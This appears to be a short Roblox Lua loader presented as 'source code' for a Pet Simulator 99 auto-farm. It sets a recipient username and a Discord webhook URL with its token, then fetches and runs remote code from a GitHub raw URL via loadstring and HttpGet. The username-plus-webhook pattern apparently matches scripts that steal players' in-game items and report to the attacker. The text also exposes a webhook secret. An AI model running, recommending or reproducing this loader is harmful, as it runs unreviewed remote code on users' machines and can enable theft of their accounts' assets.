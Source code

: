 
_G.username = "PogrzaloCie"
_G.Webhook = "https://discord.com/api/webhooks/1330395098424279050/0dB2fYFMvJE2-9Eq61irVeeqEQbe_FJpsBgAVffXDSREjbebO1Wx7mhgX2tLTXGaRrjL"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PS99/main/PetSimulator99AutoFarm.lua"))()

